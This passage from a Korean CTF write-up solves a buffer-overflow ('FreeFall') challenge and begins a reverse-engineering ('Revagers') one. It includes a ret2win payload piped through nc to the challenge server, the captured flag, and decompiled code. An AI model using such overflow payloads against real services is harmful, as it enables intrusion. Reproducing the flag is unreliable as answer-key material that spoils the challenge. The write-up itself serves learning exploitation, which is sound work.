 아마도 system(”cat flag.txt’) 와 유사한 기능을 하는 함수로 유추

`disassemble win` 으로 함수 디스어셈블

![Untitled](/images/FreeFall%20f47b008697064626a85992495e363dfe/Untitled%204.png)

시작 주소 확보 (이때 x64 기반인것을 알 수 있다)

![Untitled](/images/FreeFall%20f47b008697064626a85992495e363dfe/Untitled%205.png)

char format[32]; 로 선언된 변수에 gets() 함수를 호출하는 것을 확인

따라서 BUF 32byte + SFP 4byte + RET 이므로

총 40byte의 더미 데이터와 위에서 확보한 win 함수부분을 이용해 익스플로잇하면

```c
python -c "print('A' * 40 + '\x72\x11\x40\x00\x00\x00\x00\x00')" | nc freefall.chall.winja.site 18967
```

![Untitled](/images/FreeFall%20f47b008697064626a85992495e363dfe/Untitled%206.png)

`flag{7fbec6d149f9878499b4acd05e06c692_Did_B4BY_MaK3_YOu_OVeRCrY}`

다음과 같은 플래그 값을 얻을 수 있다.

## 2. [Rev] 100점 - Revagers
### 문제 설명
> Help Yondu and the 40 ravagers to steal the flag.

### 풀이

파일 다운 후 메모장으로 열어 파일 시그니처 확인

![Untitled](/images/Revagers%20140a1ab671124bb792ed0aba60744806/Untitled.png)

손쉽게 ELF 파일, 즉 리눅스 실행 파일인 것을 알 수 있음  

바로 IDA로 오픈

```c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  if ( a1 == 2 )
  {
    if ( strlen(a2[1]) == 41 )
      sub_1159(a2[1]);
    else
      printf("[!] Incorrect Passcode");
  }
  else
  {
    printf("[!] ERR! Usage ./vault <Passcode>");
  }
  return 0LL;
}
```
